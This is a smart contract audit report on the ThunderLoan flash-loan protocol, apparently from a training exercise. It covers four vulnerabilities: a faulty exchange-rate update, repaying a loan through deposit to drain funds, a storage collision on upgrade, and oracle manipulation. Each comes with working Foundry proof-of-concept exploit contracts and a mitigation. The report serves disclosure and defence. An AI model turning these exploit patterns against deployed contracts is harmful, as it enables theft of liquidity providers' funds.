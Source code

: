 ## High

### [H-1] Erroneous `AssetToken::updateExchangeRate` call in `ThunderLoan::deposit` causes exchange rate to be incorrect resulting in liquidity providers being unable to withdraw funds.

**Description** In the ThunderLoan system, the `AssetToken::s_exchangeRate` is responsible for keeping track of the exchange rate between assetTokens and underlying tokens. In a way, it's responsible for keeping track of fees earned by completing flash loans.

The `ThunderLoan::deposit` function updates this rate, without collecting any fees. 

```javascript

    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
@>      uint256 calculatedFee = getCalculatedFee(token, amount);
@>      assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact**

`ThunderLoan::redeem` is blocked because the protocol thinks more fees have been collected than in reality. It therefore attempts to issue the liquidity provider more funds than they're actually owed. For the last liquidity provider to call redeem, they won't be able to get all of their tokens.

**Proof of Concept**

1. LP deposits
2. User completes a flash loan
3. It is now impossible for LP to redeem

Place the following test into `ThunderLoanTest.t.sol`:

<details>
<summary> POC </summary>

```javascript
    function testRedemptionAfterLoan() public setAllowedToken hasDeposits {
        //Perform a flash loan
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        console2.log("calculatedFee: ", calculatedFee);

        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

        //Check the exchange rate
        AssetToken asset = thunderLoan.getAssetFromToken(tokenA);
        console2.log("asset.getExchangeRate():", asset.getExchangeRate());

        //Redeem funds
        uint256 amountToRedeem = type(uint256).max; // redeem all their funds
        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, amountToRedeem);
        vm.stopPrank();
    }
```
</details>


**Recommended Mitigation** Remove the lines which incorrectly update the exchange rate in `ThunderLoan::deposit`

```diff
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }

```



### [H-2] `ThunderLoan::deposit` can be used instead of `ThunderLoan::repay` to pay back a flash loan. This results in the loan-taker being issued assetTokens which can then be redeemed from the pool. 

**Description** The `ThunderLoan::flashloan` function checks that a loan is paid back by reverting if the endingBalance of the `assetToken` contract is not greater than the starting balance plus the calculated fee:

```javascript
        uint256 endingBalance = token.balanceOf(address(assetToken));
@>      if (endingBalance < startingBalance + fee) {
@>          revert ThunderLoan__NotPaidBack(startingBalance + fee, endingBalance);
        }
```

There is no check to ensure that the loan-taker repaid the loan using the intended function `ThunderLoan::repay`. When the loan-taker repays using the `ThunderLoan::deposit` function, they mint `assetToken` tokens which gives them a claim on the underlying asset:


```javascript
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
@>      assetToken.mint(msg.sender, mintAmount);
        
```

**Impact** Legitimate liquidity providers risk having their funds stolen by malicious users.

**Proof of Concept**

<details>
<summary> POC </summary>

Paste this function in the `ThunderLoanTest` contract: 

```javascript

    function testUseDepositToRepayFlashLoanToStealFunds() public setAllowedToken hasDeposits {
        
        uint256 amountToBorrow = 50e18;
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        
        // create instance of DepositInsteadOfRepay (attacker)
        DepositInsteadOfRepay dior = new DepositInsteadOfRepay(address(thunderLoan));
        vm.startPrank(address(dior));
        tokenA.mint(address(dior), fee);

        // Take out flash loan
        thunderLoan.flashloan(address(dior), tokenA, amountToBorrow, "");

        // Flash loan is paid back in executeOperation
        
        // Now redeem funds we deposited (which were actually the same funds as the flash loan)
        dior.redeemMoney();
        vm.stopPrank();

        //This interacts with another bug where calling deposit updates the exchange rate, so when we redeem we get more funds than we should
        assert(tokenA.balanceOf(address(dior)) >= 50e18 + fee);
    }
```


Paste this contract in the `ThunderLoanTest.t.sol` file: 

```javascript

contract DepositInsteadOfRepay is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    AssetToken assetToken;
    IERC20 s_token;

    constructor(address _thunderLoan) {
        thunderLoan = ThunderLoan(_thunderLoan);
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address, //initiator,
        bytes calldata //params
    )
        external
        returns (bool)
    {
        s_token = IERC20(token);
        assetToken = thunderLoan.getAssetFromToken(IERC20(token));
        IERC20(token).approve(address(thunderLoan), amount + fee);
        thunderLoan.deposit(IERC20(token), amount + fee);
        return true;
    }

    function redeemMoney() public {
        uint256 amount = assetToken.balanceOf(address(this));
        thunderLoan.redeem(s_token, amount);
    }
}


```

</details>

**Recommended Mitigation** Possible mitigrations:
1. Add a check ensuring the flashloan has been repaid using the `ThunderLoan::repay` function
2. Do not allow an address to have a flash loan and call deposit at the same time



### [H-3] Storage collision during upgrading contract swaps variable storage locations of `ThunderLoan::s_flashLoanFee` and `ThunderLoan::s_currentlyFlashLoaning`


**Description** `ThunderLoan.sol` has two variables in the following order:

```javascript
    uint256 private s_feePrecision;
    uint256 private s_flashLoanFee; 
```

However, the upgraded contract `ThunderLoanUpgraded.sol` has them in a different order due to `s_flashLoanFee` being replaced by a `constant` variable:

```javascript
    uint256 private s_flashLoanFee;
    uint256 public constant FEE_PRECISION = 1e18;

    mapping(IERC20 token => bool currentlyFlashLoaning) private s_currentlyFlashLoaning;

```

Due to how Solodity storage works, after the upgrade, `s_currentlyFlashLoaning` will be in the storage slot of `s_flashLoanFee`.

**Impact** After the upgrade, the `s_flashLoanFee` will have the value of `s_feePrecision`. This means that users who take out flash loans right after an upgrade will be charged the wrong fee.

In addition, the `s_currentlyFlashLoaning` mapping with storage will be in the wrong storage slot.

**Proof of Concept**

Paste the code into `ThunderLoanTest.t.sol`:

```javascript
import {ThunderLoanUpgraded} from "../../src/upgradedProtocol/ThunderLoanUpgraded.sol";
.
.
.

    function testUpgradeStorageCollision() public {
        uint256 feeBeforeUpgrade = thunderLoan.getFee();
        vm.startPrank(thunderLoan.owner());
        ThunderLoanUpgraded upgraded = new ThunderLoanUpgraded();

        thunderLoan.upgradeToAndCall(address(upgraded), "");
        uint256 feeAfterUpgrade = thunderLoan.getFee();
        vm.stopPrank();

        console2.log("fee before: ", feeBeforeUpgrade);
        console2.log("fee after: ", feeAfterUpgrade);
        assert(feeBeforeUpgrade != feeAfterUpgrade);
    }
```

You can also see the storage layout difference by running `forge inspect ThunderLoan storage` and `forge inspect ThunderLoanUpgraded storage`.

**Recommended Mitigation**

If you must remove the storage variable, leave a placeholder variable there.

```diff
-    uint256 private s_flashLoanFee;
-    uint256 public constant FEE_PRECISION = 1e18;
+    uint256 s_blank;
+    uint256 private s_flashLoanFee
+    uint256 public constant FEE_PRECISION = 1e18;
```


## Medium

### [M-1] Using TSwap as a price oracle creates risk of price and oracle manipulation attacks. This can cause users to pay less fees on flashloans.

**Description** The TSwap protocol is a constant product formula based AMM (automated market maker). The price of a token is determined by how many reserves are on either side of the pool. Because of this, it is easy for malicious users to manipulate the price of a token by buying or selling large amounts of the token in the same transaction. Due to the fee calculation in `ThunderLoan::getCalculatedFee`, the fee is a function of the price of the token in the TSwapPool.

**Impact** Liquidity providers will earn significantly less fees for providing liquidity.

**Proof of Concept**

The following sequence of execution occurs in 1 transaction.

1. User takes a flash loan from `ThunderLoan` for 50 `tokenA`. They are charged the original fee. During the flash loan they do the following:
   1. Swap 50 `tokenA` into the `TSwapPool`
   2. Take out a second flashloan for another 50 `TokenA`. Due to the way `ThunderLoan` calculates fees based on the price of `TokenA` in `TSwapPool`, the second flash loan is substantially cheaper.

    ```javascript
        function getPriceInWeth(address token) public view returns (uint256) {
            address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
    @>      return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
        }
    ```
   3. The user repays the first flash loan, then repays the second flash loan.

<details>
<summary> POC </summary>

Paste this function in the `ThunderLoanTest` contract: 

```javascript

    // This test requires more setup, we cannot use the basic mock contracts from TSwap
    function testOracleManipulation() public {

        // 1. Setup contracts
        thunderLoan = new ThunderLoan();
        weth = new ERC20Mock();
        tokenA = new ERC20Mock();
        proxy = new ERC1967Proxy(address(thunderLoan), "");

        BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));
        // Create a TSwap pool between WETH/TokenA
        address tSwapPool = pf.createPool(address(tokenA));

        // Use the proxy address as the thunderLoan contract
        thunderLoan = ThunderLoan(address(proxy));
        thunderLoan.initialize(address(pf));

        // 2. Fund TSwap
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 100e18);
        tokenA.approve(tSwapPool, 100e18);

        weth.mint(liquidityProvider, 100e18);
        weth.approve(tSwapPool, 100e18);
        
        // Ratio should be 100 weth & 100 TokenA
        // Therefore price is 1:1
        BuffMockTSwap(tSwapPool).deposit(100e18, 100e18, 100e18, block.timestamp);
        vm.stopPrank();

        // 3. Fund ThunderLoan
        vm.startPrank(thunderLoan.owner());   
        //console2.log(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);
        vm.stopPrank();
        
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 1000e18);
        tokenA.approve(address(thunderLoan), 1000e18);
        thunderLoan.deposit(tokenA, 1000e18);
        vm.stopPrank();

        // 4. Take out flash loan for 50 tokenA, swap it on the DEX (TSwapPool) to impact the price
        uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA, 100e18);
        console2.log("normalFeeCost: ", normalFeeCost);
        // 0.296147410319118389

        uint256 amountToBorrow = 50e18;
        MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(tSwapPool, address(thunderLoan), address(thunderLoan.getAssetFromToken(tokenA))); 

        vm.startPrank(user);
        tokenA.mint(address(flr), 100e18); // mint flash loan user tokens to cover fees
        thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 attackFee = flr.loanFeeOne() + flr.loanFeeTwo();
        console2.log("attackFee: ", attackFee);

        assert(attackFee < normalFeeCost);
    }

```


Paste this contract in the `ThunderLoanTest.t.sol` file: 

```javascript


contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {

    ThunderLoan thunderLoan;
    BuffMockTSwap tSwapPool;
    address repayAddress;
    bool attacked;

    uint256 public loanFeeOne;
    uint256 public loanFeeTwo;

    constructor(address _tswapPool, address _thunderLoan, address _repayAddress) {
        tSwapPool = BuffMockTSwap(_tswapPool);
        thunderLoan = ThunderLoan(_thunderLoan);
        repayAddress = _repayAddress;
        attacked = false;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address, //initiator,
        bytes calldata //params
    )
        external
        returns (bool)
    {
        if (!attacked) {
            loanFeeOne = fee;
            attacked = true;

            // Swap borrowed tokenA borrowed for WETH
            uint256 wethBought = tSwapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
            IERC20(token).approve(address(tSwapPool), 50e18);
            tSwapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought, block.timestamp);
            // n we want to validate that this user can swap this weth back for tokenA after the second flash loan is taken out!

            // 5. Take out another flash loan for 50 tokenA and see how much cheaper it is!
            // Take out another flash loan to show difference in fees (this will re enter this function however attacked will be true)
            thunderLoan.flashloan(address(this), IERC20(token), amount, "");

            // Repay - repay is currently bugged when repaying the second flash loan, use a direct transfer instead
            // IERC20(token).approve(address(thunderLoan), amount + fee);
            // thunderLoan.repay(IERC20(token), amount + fee);
            IERC20(token).transfer(repayAddress, amount + fee);
        }
        else {
            // Calculate fee
            loanFeeTwo = fee;

            // Repay - repay is currently bugged when repaying the second flash loan, use a direct transfer instead
            // IERC20(token).approve(address(thunderLoan), amount + fee);
            // thunderLoan.repay(IERC20(token), amount + fee);
            IERC20(token).transfer(repayAddress, amount + fee);
        }
        return true;
    }
}


```


</details>


**Recommended Mitigation** Consider using a different price oracle mechanism, like a Chainlink price feed with a Uniswap TWAP fallback oracle.

Alternatively, take fees as a % of the borrowed amount, in the token that was borrowed. This removes the dependancy on external price oracles.